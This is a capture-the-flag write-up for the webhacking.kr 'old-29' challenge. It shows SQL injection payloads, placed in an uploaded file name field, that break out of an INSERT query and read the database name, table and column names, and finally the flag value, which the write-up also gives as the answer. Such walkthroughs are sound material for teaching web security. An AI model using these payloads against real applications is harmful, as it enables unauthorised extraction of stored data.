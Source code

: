 ```yaml
---
layout: default
title: old-29
---
```


# Webhacking old-29 Solution

this is another sql injection challenge.
I think the sql query is like that: `INSERT INTO table Values (filename)`, so, we need to see what are the next columns, there are 2 options:
```
(filename, ip, time)
(filename, time, ip)
```

my-ip = `149.102.239.232`
let's try each of this methods, and see which one works.
1. `file', '149.102.239.232', 0)# `
2. `file', 0, '149.102.239.232')# `

the second method works!

![alt text](./images/old-29_1.png)

now, let's insert this payload, in order to find the database:
```
file', 0, '149.102.239.232'), ((select database()), 0, '149.102.239.232')# 
```
database: `chall29`

retrieve tables:
```
file', 0, '149.102.239.232'), ((select group_concat(table_name) from information_schema.tables where table_schema='chall29'), 0, '149.102.239.232')# 
```
tables: `files,flag_congratz`

retrieve columns:
```
file', 0, '149.102.239.232'), ((select group_concat(column_name) from information_schema.columns where table_name='flag_congratz'), 0, '149.102.239.232')# 
```
columns: `flag`

now, only need to achieve the flag:
```
file', 0, '149.102.239.232'), ((select flag from flag_congratz), 0, '149.102.239.232')# 
```
flag: `FLAG{didYouFeelConfused?_sorry:)}`


**Flag:** ***`FLAG{didYouFeelConfused?_sorry:)}`*** 


